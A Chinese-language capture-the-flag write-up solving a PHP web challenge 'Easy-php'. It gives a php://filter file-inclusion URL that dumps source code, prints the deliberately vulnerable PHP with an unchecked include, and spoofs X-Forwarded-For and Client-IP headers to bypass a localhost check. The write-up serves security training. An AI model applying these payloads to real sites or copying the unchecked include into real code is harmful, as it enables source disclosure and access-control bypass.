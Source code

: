 **Easy-php**
---
From: [http://sqlab.zongyuan.nctu.me:8000/challenges#easy_php](http://sqlab.zongyuan.nctu.me:8000/challenges#easy_php)  
Question: [http://sqlab.chtsai.nctu.me/index.php?page=](http://sqlab.chtsai.nctu.me/index.php?page=)     
___
用   **Burp** 攔截網頁的封包

先使用PHP的Filter試著去讀取網頁背後的原始碼

    http://sqlab.chtsai.nctu.me/index.php?page=php://filter/read=convert.base64-encode/resource=./index.php

![php://filter/read=convert.base64-encode/resource=./xxe.php](https://github.com/liuchy0427/CTF-wrtieups/blob/master/web/NTHU-balqs/easy-php/file/%E6%93%B7%E5%8F%96.PNG)

會得到以下的結果

![](https://github.com/liuchy0427/CTF-wrtieups/blob/master/web/NTHU-balqs/easy-php/file/burp.PNG)

再將右邊的亂碼去做base64 decoding 結果如下
```php
    <?php
        $flag = 'flagSWRvbnR3YW50eW91a25vdw==';
        $ip = $_SERVER["REMOTE_ADDR"];

        if(array_key_exists('HTTP_CLIENT_IP', $_SERVER) && array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER) &&
            $_SERVER["HTTP_CLIENT_IP"]=='127.0.0.1' && $_SERVER["HTTP_X_FORWARDED_FOR"] =='127.0.0.1'){
            $content = file_get_contents($flag);
            echo($content);
            return;
        }

        if(array_key_exists("page", $_GET)){
            $page = $_GET['page'];
            if(strpos($page, $flag) !== false){
                return;
            }
            if($page != ''){
                echo($page.'    ');
                include($page);
            }else{
                echo('<h1 style="text-align: center">You are a bad hacker !!!</h1>');
            }
        }
        else{
            echo('<script>window.location.href = "./index.php?page="</script>');
        }
    ?>
```
透過對程式碼的觀察，可以發現只要滿足  
  
```    $_SERVER["HTTP_CLIENT_IP"]=='127.0.0.1' && $_SERVER["HTTP_X_FORWARDED_FOR"] =='127.0.0.1'```  

即可讓程式碼自動echo出我們要的Flag
  
因此我們要透過 Burp 在載入網頁時更改header，加上以下兩段:  
``` 
    X-Forwarded-For:127.0.0.1
    Client-IP:127.0.0.1 
```  
  
再次傳送封包，就可以得到我們要的:

     balqs{REm0TE_F1LE_1NcLUs10N}
